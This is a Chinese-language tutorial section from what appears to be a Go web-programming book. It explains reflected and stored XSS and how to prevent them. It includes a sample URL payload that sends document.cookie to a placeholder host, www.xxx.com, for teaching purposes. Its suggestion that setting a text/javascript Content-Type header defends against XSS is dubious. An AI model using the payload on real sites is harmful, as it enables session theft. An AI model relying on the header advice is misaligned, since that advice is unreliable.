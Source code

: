 # 9.3 避免XSS攻击
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

## 什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS的原理
Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：

	hello astaxie

如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

更加详细的关于XSS的分析大家可以参考这篇叫做《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何预防XSS
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符

	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型

```Go

`w.Header().Set("Content-Type","text/javascript")`

这样就可以让浏览器解析javascript代码，而不会是html输出。

```
## 总结
XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。
